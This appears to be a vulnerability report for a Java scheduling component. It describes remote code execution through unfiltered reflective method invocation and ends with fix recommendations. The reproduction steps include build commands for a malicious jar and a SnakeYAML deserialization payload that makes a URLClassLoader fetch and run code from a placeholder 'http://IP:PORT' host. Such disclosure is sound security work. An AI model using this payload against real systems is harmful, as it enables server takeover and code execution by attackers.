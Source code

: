 ## Remote Code Execution

### 1.  Steps to reproduce

Using the project `https://github.com/artsploit/yaml-payload`, modify `AwesomeScriptEngineFactory.java` as follows

![image-20240218210104501](rce.assets/image-20240218210104501.png)

Building and package, move`yaml-payload.jar` into the root directory of the web service

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

A new scheduled task is created as follows

![image-20240218203904983](rce.assets/image-20240218203904983.png)

`调用方法` field is `org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://IP:PORT/yaml-payload.jar"]]]]')`

Execute this task after submission to remotely execute arbitrarily code

![image-20240218211601330](rce.assets/2024-02-18_20-13-01.gif)

### 2. Expected behavior

The `com.aurora.util.JobInvokeUtil#invokeMethod` method is used to reflectively execute the specified method of the given class

![image-20240218211601330](rce.assets/image-20240218211601330.png)

### 3. Actual behavior

However, there is no filtering of incoming class names and method names in this method, resulting in dangerous class names and method names being passed in and executed

#### 4. Affected Version

latest

### 5. Fixes Recommendations

1. Filter dangerous class names
2. Filter unnecessary protocols such as http, rmi, etc.